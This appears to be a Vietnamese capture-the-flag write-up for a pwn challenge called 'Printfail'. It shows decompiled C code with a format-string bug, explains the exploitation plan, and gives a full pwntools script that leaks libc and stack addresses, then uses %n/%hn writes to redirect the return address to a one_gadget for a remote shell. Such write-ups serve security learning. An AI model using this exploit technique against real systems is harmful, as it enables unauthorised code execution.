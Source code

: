# Printfail

đây là 1 trong những chall khó nhất mình từng gặp


**ida:**

```c 

int __fastcall run_round(_DWORD *a1)
{
  memset(buf, 0, sizeof(buf));
  fflush(stdout);
  if ( !fgets(buf, 512, stdin) )
    return 0;
  *a1 = strlen(buf) <= 1;
  return printf(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("I'll let you make one printf call. You control the format string. No do-overs.");
  v4 = 1;
  while ( v4 )
  {
    if ( !(unsigned int)run_round(&v4) )
      return 0;
    if ( v4 )
      puts("...That was an empty string. Come on, you've at least gotta try!\nOkay, I'll give you another chance.");
  }
  return 0;
}

```

**chà bài này chỉ có lỗi fmt thôi**

checks:

![image](https://github.com/gookoosss/CTF/assets/128712571/dac8d3ae-4355-4c9d-8363-48fed8c7e710)


má fulltank luôn chứ :)) 

![image](https://github.com/gookoosss/CTF/assets/128712571/78d92cf8-1fb2-4cb6-a2cf-9a0f41a897a5)


ở đây dữ liệu nhập vào được đặt ở địa chỉ heap, đồng nghĩa với việc ta ko thể thay đổi stack được, **bài này tương đối khó nên ta chỉ có cách làm duy nhất sự dụng fmt nhiều lần nhằm thay đổi rip trỏ đến thứ ta muốn**

## Phân tích
- trong ida ko có system hay shell nên ta chỉ có thể leak libc ra để tự tạo shell cho mình => **leak libc**
- để ý trên ảnh thì stack **0x007fffffffe0c0** đang chứa **0x007fffffffe208** trỏ đến **0x007fffffffe47b**, nếu vậy ta hoàn toàn có thể lợi dụng lỗi fmt để dễ dàng đổi **0x007fffffffe47b** thành rip của main để khai thác
- tiếp tục lợi dụng lỗi fmt lần nữa để thay đổi giá trị trỏ đến của rip thành **one_gadget** là ta có thể lấy được shell

## Lưu ý
**nếu ta làm như bình thường thì ta nhận ra 1 điều là tại sao khi ta chạy script thì nó luôn dừng chương trình mặc dù trong ida thì nó là lặp vô tận**

h ta sẽ debug xem sao

![image](https://github.com/gookoosss/CTF/assets/128712571/35b43127-702a-43e7-ad82-3721a25609f4)


đây đây tại đây thì ta thấy **rax sẽ so sánh với 0x1**, nếu rax khác 0x1 thì sẽ dừng chương trình ngay lập tức và ko khai thác được gì


![image](https://github.com/gookoosss/CTF/assets/128712571/f0a7542f-7b6d-45a2-8139-193ccb79f6e7)


tại đây thì ta thấy thì ta thấy **địa chỉ rax là 0x007fffffffe0e4**, nếu vậy thì ta chỉ cần **gán 1 byte duy nhất vào rax trong mỗi lần nhập** thì ta có thể thoải mái lặp được rồi 

để ý thì **0x007fffffffe0e4** có nhằm trên stack nên ta có thể sử dụng **%c và %n** trong mỗi lần nhập rồi

## script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./printfail_patched")
libc = ELF("./libc6_2.31-0ubuntu9.9_amd64.so")
ld = ELF("./ld-2.31.so")
# p = process([exe.path])
p = remote('0.tcp.ap.ngrok.io', 11707)

context.binary = exe

# gdb.attach(p, gdbscript = '''
# b*run_round+75
# b*run_round+132
# c 
# ''')

# input()

#########################
### Stage1: leak libc ###
#########################

payload = b'%1c%7$n%13$p|'
p.sendline(payload)
p.recvline()
p.recvuntil(b'1')
libc_leak = int(p.recvuntil(b'|',drop=True),16)
libc.address = libc_leak - 0x24083
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

##########################
### Stage1:leak stack  ###
##########################

payload = b'%1c%7$n%15$p|'
p.sendline(payload)
p.recvline()
p.recvuntil(b'1')
stack_leak = int(p.recvuntil(b'|',drop=True),16)
rip = stack_leak - 0xf0
log.info("stack leak: " + hex(stack_leak))
log.info("rip: " + hex(rip))

#########################
### Stage1: tạo shell ###
#########################

one_gadget = libc.address + 0xe3b01
log.info("one_gadget: " + hex(one_gadget))

for i in range(0, 2):
    rip += 2*i
    payload = f'%1c%7$n%{(rip & 0xffff) - 1}c%15$hn'.encode()
    p.sendline(payload)
    payload = f'%1c%7$n%{(one_gadget & 0xffff) - 1}c%43$hn'.encode()
    p.sendline(payload)
    one_gadget = one_gadget >> 16
    log.info("one_gadget: " + hex(one_gadget))

p.sendline(b'a')

p.interactive()




```
